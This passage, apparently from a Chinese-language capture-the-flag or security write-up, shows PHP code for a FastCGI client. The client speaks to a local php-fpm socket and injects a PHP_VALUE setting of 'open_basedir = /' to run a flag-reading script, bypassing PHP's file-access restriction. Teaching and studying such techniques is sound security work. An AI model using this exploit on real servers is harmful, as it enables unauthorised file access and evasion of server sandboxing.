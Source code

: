 ````
                  // Reset
                  $this->set_ms_timeout( $this->_readWriteTimeout );
                  throw new Exception( 'Timed out' );
              }
          } while ( $resp );
    if ( ! is_array( $resp ) ) {
              $info = stream_get_meta_data( $this->_sock );
              // We must reset timeout but it must be AFTER we get info
              $this->set_ms_timeout( $this->_readWriteTimeout );
              if ( $info['timed_out'] ) {
                  throw new TimedOutException( 'Read timed out' );
              }
              if ( $info['unread_bytes'] == 0
                   && $info['blocked']
                   && $info['eof'] ) {
                  throw new ForbiddenException( 'Not in white list. Check listen.allowed_clients.' );
              }
              throw new Exception( 'Read failed' );
          }
          // Reset timeout
          $this->set_ms_timeout( $this->_readWriteTimeout );
          switch ( ord( $resp['content']{4} ) ) {
        case self::CANT_MPX_CONN:
            throw new Exception( 'This app can't multiplex [CANT_MPX_CONN]' );
            break;
        case self::OVERLOADED:
            throw new Exception( 'New request rejected; too busy [OVERLOADED]' );
            break;
        case self::UNKNOWN_ROLE:
            throw new Exception( 'Role value not known [UNKNOWN_ROLE]' );
            break;
        case self::REQUEST_COMPLETE:
            return $this->_requests[ $requestId ]['response'];
    }
}
}
$client    = new Client("unix:///tmp/php-cgi-74.sock", -1);
  $php_value = "open_basedir = /";
$filepath  = '/tmp/readflag.php';
  $content   = 'hpdoger';
echo $client->request(
      array(
          'GATEWAY_INTERFACE' => 'FastCGI/1.0',
          'REQUEST_METHOD'    => 'POST',
          'SCRIPT_FILENAME'   => $filepath,
    'SERVER_SOFTWARE'   => 'php/fcgiclient',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9985',
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'mag-tured',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_TYPE'      => 'application/x-www-form-urlencoded',
    'CONTENT_LENGTH'    => strlen( $content ),
          'PHP_VALUE'         => $php_value,
),
$content
);
```

可以用下面代码判断php以什么运行:

````